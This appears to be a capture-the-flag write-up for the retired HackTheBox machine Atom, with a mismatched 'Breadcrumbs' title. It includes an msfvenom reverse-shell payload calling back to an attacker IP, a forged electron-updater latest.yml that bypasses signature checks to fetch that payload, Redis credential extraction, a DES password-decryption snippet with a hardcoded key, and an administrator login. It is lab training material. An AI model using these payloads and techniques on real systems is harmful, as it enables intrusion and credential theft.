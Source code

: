 ```yaml
---
title: HackTheBox - Breadcrumbs Writeup
subtitle: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
summary: Here's my writeup for the RETIRED machine Atom, Which is a Medium Windows machine!
date: '2021-07-10'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Hard']
tags: ['HackThebox', 'Medium','Windows']
image: /assets/img/htb-atom/Featured.png
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## Web Enumeration

<img src="/assets/img/htb-atom/web.png">

It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 

<img src="/assets/img/htb-atom/smb.png">

An interesting share `Software_Updates` let's take a look at it

<img src="/assets/img/htb-atom/foothold.png">

Let's try download everything

```
prompt off
recurse on
mget *
```

<img src="/assets/img/htb-atom/smbfiles.png">
We only have a pdf file!

---

# Foothold 

---

Let's take a look at the pdf file

<img src="/assets/img/htb-atom/electron.png">
<img src="/assets/img/htb-atom/electron1.png">

The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


<img src="/assets/img/htb-atom/foothold.png">

We're on the box now! And we can get the user flag !:D

<img src="/assets/img/htb-atom/user.png">


---

# PrivEsc

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!

<img src="/assets/img/htb-atom/portable.png">

We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


<img src="/assets/img/htb-atom/redis.png">

We can see that Redis is installed, we can grab the redis password from the config file

<img src="/assets/img/htb-atom/pass.png">

```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```
<img src="/assets/img/htb-atom/rd.png">

Let's list the keys from the db0


<img src="/assets/img/htb-atom/rd1.png">

Let's check their content
<img src="/assets/img/htb-atom/PS.png">


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```

<img src="/assets/img/htb-atom/adminpass.png">

```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```



<img src="/assets/img/htb-atom/toor.png">

And we rooted the machine!
